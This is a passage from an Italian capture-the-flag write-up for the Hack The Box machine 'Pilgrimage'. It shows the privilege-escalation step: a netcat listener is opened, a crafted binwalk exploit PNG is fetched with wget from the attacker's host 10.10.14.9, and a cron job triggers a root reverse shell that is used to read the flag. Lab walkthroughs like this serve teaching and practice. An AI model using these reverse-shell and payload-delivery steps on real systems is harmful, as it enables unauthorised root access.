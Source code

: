 ```bash


You can now rename and share binwalk_exploit and start your local netcat listener.

```

Dopo aver generato l'immagine manipolata utilizzando l'exploit, dobbiamo caricarla nel percorso "/var/www/pilgrimage.htb/shrunk/" sul server di destinazione. Ma prima ci mettiamo in ascolto con nc 

```bash
┌──(root㉿kali)-[/home/kali]
└─# nc -lnvp 6969
listening on [any] 6969 ...
```

Carichiamo l'immagine manipolata  sulla macchina target 

```bash
emily@pilgrimage:/var/www/pilgrimage.htb/shrunk$ wget http://10.10.14.9:8000/binwalk_exploit.png
--2023-07-04 21:19:22--  http://10.10.14.9:8000/binwalk_exploit.png
Connecting to 10.10.14.9:8000... connected.
HTTP request sent, awaiting response... 200 OK
Length: 41118 (40K) [image/png]
Saving to: ‘binwalk_exploit.png’

binwalk_exploit.png                                        100%[=======================================================================================================================================>]  40.15K   199KB/s    in 0.2s

2023-07-04 21:19:22 (199 KB/s) - ‘binwalk_exploit.png’ saved [41118/41118]

```

e aspettiamo che il cronjob esegua ottenendo cosi la shell da root con la nostra flag

```bash
┌──(root㉿kali)-[/home/kali]
└─# nc -lnvp 6969
listening on [any] 6969 ...
connect to [10.10.14.9] from (UNKNOWN) [10.10.11.219] 38160
which python
/usr/bin/python
python -c 'import pty; pty.spawn("/bin/bash")'
root@pilgrimage:~/quarantine# 
root@pilgrimage:/# cd root
cd root
cat root.txt
33248b6346767490911ccc28daaac78c
```

# LESSON LEARNED

Per avere l'accesso iniziale abbiamo sfruttato diversi errori 
